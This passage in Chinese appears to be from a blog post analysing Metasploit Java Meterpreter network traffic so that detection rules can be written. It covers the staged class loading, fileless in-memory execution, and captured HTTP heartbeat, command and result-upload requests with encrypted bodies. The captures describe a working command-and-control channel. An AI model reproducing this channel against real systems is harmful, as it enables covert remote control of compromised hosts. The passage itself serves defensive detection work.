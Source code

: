 ![image-20190805004106503](http://ww1.sinaimg.cn/large/006tNc79ly1g5sjddhce4j31sg0lctfw.jpg)

然后执行下载下来的真实class javapayload.stage.Meterpreter进行bootstrap，销毁源tmp文件，class以0000 00d3 cafe babe 开头（注意到这又是一个唯一特征）。这一步远程加载datastream， msf真实的payload开始执行，实现无文件内存存留。

心跳特征

![image-20190805004012139](http://ww4.sinaimg.cn/large/006tNc79ly1g5sjdbb0ssj30u00yje27.jpg)

com.metasploit.meterpreter.Meterpreter

心跳存活和下发命令通过post上传加密之后的内容，心跳地址固定，返回无回显。get地址为心跳，如果需要下发命令，则心跳地址返回内容包括需要下发的命令，然后通过post往该地址上报结果内容。

 下面三个请求分别为一般心跳、下发命令，上报执行命令的回显。

```
GET /PChqVu5ecM04Fj222Ge1IEoebvxJdmRcVWyrLa/ HTTP/1.1
User-Agent: Java/1.8.0_162
Host: 3351:4445
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.1 200 OK
Content-Type: application/octet-stream
Connection: Keep-Alive
Server: Apache
Content-Length: 0

GET /PChqVu5ecM022vxJdmRcVWyrLa/ HTTP/1.1
User-Agent: Java/1.8.0_162
Host: 33151:4445
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive

HTTP/1.1 200 OK
Content-Type: application/octet-stream
Connection: Keep-Alive
Server: Apache
Content-Length: 114

[:X....$.........`9.[:X.[:X.[:X.[:X.[;X.(N<.+S.."I..)U;.(I..>N..)U;.(I=.[:X.r:Y.Y
i.c	a.n.l.o.k.l.j.m.i.b.j.j.h.m:POST /PChqVu5ecM04FjwH33339uUXqqrVOPEZLGe1IEoebvxJdmRcVWyrLa/ HTTP/1.1
User-Agent: Java/1.8.0_162
Host: 331:4445
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive
Content-type: application/x-www-form-urlencoded
Content-Length: 145038

=....P..gQ....-7....=...=..m=...=..2=...N..zM..hD..kO..~N..|X..kO..~N..h=.......?..+...-....	..-
......-...#...+....=...=...=...=...<;.3W..EM;.
...K....=...5	..=...5
..=...=...9..tR...=...<..4N..u...nS...=...+......yT..w\..xU...=..[=...=...?...=...=...<..iR...=...=......i...rS..bN..|Y...=...5..nN..h_..4N..wR...=..i}...=...=...=..1=...=..	O..o=........
```
显然从ua、包内容的明显黑名单字段、http出口的黑白名单方面抓特征还是很容易上规则的。

至于反序列化等防护手段，根据企业的推行力度和运营手段斟酌吧。

## 最后

如何您有更好的实现和思路，欢迎同我留言交流。
